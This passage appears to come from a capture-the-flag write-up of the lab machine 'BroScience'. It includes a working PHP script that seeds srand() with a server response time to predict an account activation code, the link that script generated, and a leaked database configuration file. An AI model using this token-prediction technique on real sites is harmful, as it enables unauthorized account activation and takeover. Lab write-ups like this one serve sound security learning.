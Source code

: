 ```http
HTTP/1.1 200 OK
Date: Tue, 31 Jan 2023 00:40:12 GMT
Server: Apache/2.4.54 (Debian)
...
```

I used that time to generate a token and activate my account.

```php
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
$time = strtotime('Tue, 31 Jan 2023 00:40:12 GMT');
srand($time);
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
    $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
echo 'https://broscience.htb/activate.php?code=' . $activation_code . "\n";
```

I ran the script and used the generated link

```bash
$ php generateCode.php
https://broscience.htb/activate.php?code=OqxSuRjhkh02FEDHXHtPeTLu5PJ8z2fo
```

![Account Activated](/assets/images/2023/01/BroScience/AccountActivated.png "Account Activated")

## Remote Code Execution

I logged into the site with my activated user. I looked around, I could modify my account and add comments under exercises. I tried sending XSS and SSTI payloads, but it did not work.

I kept looking at the source code. The file `db_connect.php` contained database credentials. 

```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "REDACTED";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```
